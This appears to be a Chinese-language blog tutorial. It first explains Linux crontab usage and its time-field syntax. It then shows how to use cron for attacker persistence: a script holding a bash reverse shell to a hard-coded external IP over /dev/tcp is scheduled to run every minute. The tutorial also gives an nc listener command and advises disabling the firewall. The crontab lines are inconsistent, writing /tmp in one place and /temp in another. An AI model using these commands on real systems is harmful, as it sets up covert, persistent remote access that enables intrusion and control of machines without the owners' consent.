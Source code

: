 # 定时任务介绍                                      [ ](af://n4)

Linux crontab 是用来定期执行程序的命令。

当安装完成操作系统之后， 默认便会启动此任务调度命令。

crond 命令每分钟会定期检查是否有要执行的工作， 如果有要执行的工作便会自动执行该工作。

注意： 新创建的 cron 任务， 不会马上执行， 至少要过 2 分钟后才可以， 当然你可以重启 cron 来马上执行。 命令介绍如下

```
用法 :【crontab [options] file】  |【crontab [options]】  |【crontab -n [hostname]】 
选项:
-u <user>	定义用户
-e	编辑用户的计划任务
-l	列出用户的计划任务
-r	删除用户的计划任务
-i	删除前提示
-n <host>	set host in cluster to run users ' crontabs
-c	get host in cluster to run users ' crontabs
-s	selinux context
-x <mask>	启用调试
```

时间格式如下：

```
f1 f2 f3 f4 f5 program 

分 时  天 月 星期几 执行的程序
```

```
其中 f1 是表示分钟，f2 表示小时， f3 表示一个月份中的第几日，f4 表示月份，f5 表示一个星期中的第几天。 program 表示要执行的程序。
当  f1 为  * 时表示每分钟都要执行  program，  f2 为  * 时表示每小时都要执行程序，  其馀类推
当  f1 为  a-b 时表示从第  a 分钟到第  b 分钟这段时间内要执行，  f2 为  a-b 时表示从第  a 到第  b 小时都要执 行，  其馀类推
当  f1 为  */n 时表示每  n 分钟个时间间隔执行一次，  f2 为  */n 表示每  n 小时个时间间隔执行一次，  其馀类推     
当  f1 为  a, b, c,... 时表示第  a, b, c,... 分钟要执行，  f2 为  a, b, c,... 时表示第  a, b, c...个小 时要执行，  其馀类推
```

# 定时任务维持                                      [ ](af://n20)

## 1、创建shell脚本在 /tmp/shell.sh![img](https://img.gyxnb.top/img/clip_image002-16839593447041.gif)

```
echo "bash -i >&/dev/tcp/47.120.13.249/12345 0>&1" > /tmp/shell.sh
```

![img](https://img.gyxnb.top/img/clip_image005-16839593447053.jpg)

## 2、更改权限

```
chmod 755 /tmp/shell.sh  
```

## 3、编辑计划任务 

 `crontab -e` ![img](https://img.gyxnb.top/img/clip_image007.gif)输入 `*/1 * * * * /tmp/shell.sh`![img](https://img.gyxnb.top/img/clip_image009-16839593447054.gif)， 如果是-e编辑的不需要添加用户名

```
 crontab -e
 */1 * * * * /temp/shell.sh
 
 crontab -l
 systemctl status crond //查看计划任务状态  
 systemctl start crond.service//启动计划任务  
```

![img](https://img.gyxnb.top/img/clip_image010-16839593447055.jpg)

## 4、在192.168.41.129上用nc监听，

```
nc -lvvp 12345

如果不行记得关闭防火墙
systemctl stop firewalld.service
```

![img](https://img.gyxnb.top/img/clip_image012-16839593447056.gif)

## 5、等待连接， 连接成功

![img](https://img.gyxnb.top/img/clip_image013-16839593447057.jpg)
